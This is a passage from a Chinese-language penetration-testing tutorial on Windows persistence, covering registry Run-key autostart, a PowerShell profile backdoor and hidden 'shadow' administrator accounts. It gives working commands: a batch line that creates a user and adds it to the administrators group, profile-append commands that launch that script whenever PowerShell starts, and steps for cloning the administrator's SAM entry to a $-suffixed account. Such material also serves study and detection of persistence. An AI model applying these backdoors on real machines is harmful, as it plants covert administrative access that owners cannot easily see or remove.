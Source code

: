 #### 4.注册表自启动

###### 简介

注册表是windows操作系统中的一个核心数据库，其中存放着各种参数，直接控制着windows的启动、硬件驱动程序的装载以及一些windows应用程序的运行，从而在整个系统中起着核心作用。这些作用包括了软、硬件的相关配置和状态信息，比如注册表中保存有应用程序和资源管理器外壳的初始条件、首选项和卸载数据等，联网计算机的整个系统的设置和各种许可，文件扩展名与应用程序的关联，硬件部件的描述、状态和属性，性能记录和其他底层的系统状态信息，以及其他数据等。

###### 复现

第一步：输入命令

`reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "test2" /t REG_SZ /d "C:\Windows\System32\notepad.exe" /f`

第二步：重启服务器，自动会打开notepad.exe

#### 5.powershell配置文件后门

###### 简介

Windows PowerShell 是一种命令行外壳程序和脚本环境，使命令行用户和脚本编写者可以利用 .NET Framework的强大功能。Powershell配置文件其实就是一个powershell脚本，他可以在每次运行powershell的时候自动运行，所以可以通过向该文件写入自定义的语句用来长期维持权限。

###### 复现

第一步：准备1.bat脚本，内容为：net user qiesi abc123.. /add &amp; net localgroup administrators qiesi /add

第二步：打开Windows PowerShell ，输入以下命令

```
echo $profile # 查看当前是否存在配置文件。

Test-path $profile # 如果返回Flase 则可以进行配置

New-Item -Path $profile -Type File –Force # 创建配置文件

$string = 'Start-Process "C:\1.bat"'

$string | Out-File -FilePath $profile -Append

more $profile # 查看文件
```

第三步：重新打开powershell就会自动执行

#### 6.建立影子账号

###### 简介

影子账户，顾名思义就是隐藏的账户，在“控制面板-用户账户”里面是看不见，但却有管理员权限的账户

###### 复现

第一步：创建一个带$符号的账户。

第二步：打开注册表HEKY_LOCAL_MACHINE\SAM\SAM\Domains\Account\User。将管理员对应的F项的值，复制粘贴到qiesi$用户的对应F项的值。

第三步：导出用户及对应的项的注册表文件，删除掉用户。
